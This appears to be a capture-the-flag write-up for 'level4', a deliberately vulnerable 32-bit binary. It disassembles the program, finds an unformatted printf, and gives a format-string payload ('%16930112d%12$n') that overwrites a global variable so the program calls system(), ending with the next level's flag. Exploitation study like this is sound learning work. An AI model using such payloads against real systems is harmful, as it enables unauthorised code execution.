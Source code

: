 # Level4

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

## Testing the program

```bash
./level4 
hello
hello
```

Once more we have an executable which displays the string passed. 

## Learning more

```bash
disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    
End of assembler dump.
``` 

The executable calls a function called 'n'. 

```bash
disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt> --> CALL TO FGETS
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p> --> CALL TO ANOTHER FUNCTION CALLED P
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt> --> CALL TO SYSTEM
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```

3 things here :
```plaintext
    • a "fgets" call
    • a call to a "p" function
    • a condition for a call to "system"
```

The program compares the value of a global variable m at 0x8049810 to 0x1025544 (16930116 in dec).

```bash
disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.
```

Once again we have "printf" that calls the argument, without formater --> Format string again

## Getting access to the shell

Like in level3 our goal is to manipulate the printf() function into changing the value of the variable at the address 0x8049810 so that it equals 16930116. 

1. Print the memory until we reach the address of the variable we wish to modify

```bash 
$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' > /tmp/coucou
$ cat /tmp/coucou - | ./level4
aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520
```

The buffer aaaa is at the 12th position (61616161). 

2. Change the value

Our previous method won't work here because the value 16930116 in the comparaison is too long.
However we can use the modifier %d, and dynamically specify the field width (as so : %16930116d).
This will be the only difference between this level and the older one.

3. Making the payload 

We have to reach a total of : 16930116, we have the adrress of m which takes up 4 bytes so our final padding is 16930112. 
Giving us the following payload : 

```bash 
$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/coucou
$ cat /tmp/coucou | ./level4
[...]
     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```